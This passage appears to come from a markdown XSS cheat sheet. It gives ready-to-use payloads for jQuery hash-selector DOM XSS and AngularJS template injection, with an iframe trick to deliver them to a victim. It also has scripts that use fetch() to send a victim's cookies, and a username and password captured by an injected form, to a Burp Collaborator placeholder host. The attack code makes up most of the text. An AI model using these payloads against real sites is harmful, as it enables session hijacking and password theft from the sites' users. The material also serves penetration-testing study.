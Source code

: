 As the `hash` is user controllable, an attacker could use this to inject an XSS vector into the `$()` selector sink. More *recent versions of jQuery have patched this particular vulnerability by preventing you from injecting HTML into a selector when the input begins with a hash character* (`#`). However, *you may still find vulnerable code* in the wild.

Exploit :-
```js
https://[Vulnerable Website]/#<img src=1 onerror=print()>

// While Delivering to your victim :-
<iframe src="https://vulnerable-website.com#" onload="this.src+='<img src=1 onerror=print()>'">
// This is done because we have to make a hash change automatically without user interaction
```



#### DOM XSS in AngularJS
When a site uses the `ng-app` attribute on an HTML element, it will be *processed by AngularJS*. In this case, **AngularJS will execute JavaScript inside double curly braces** that can occur directly in HTML or inside attributes.

Exploit :-
```js
{{constructor.constructor('alert(1)')()}}
OR
{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}
```

For **More Exploits**, [Visit Here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md)

---
## Steal Cookies with XSS
1) Find XSS Vulnerability
2) Use Burp Collaborator
3) Exploit Code :-
```js
<script> fetch('https://[burp-collaboratordomain]',{method: 'POST', mode: 'no-cors', body: document.cookie}); </script>
```
OR
Use Pre-Made Scripts From [Here](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)



## Steal Passwords With XSS
- Create a Login Form with username & password in the Vulnearable Input Field
- Exploit
```js
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

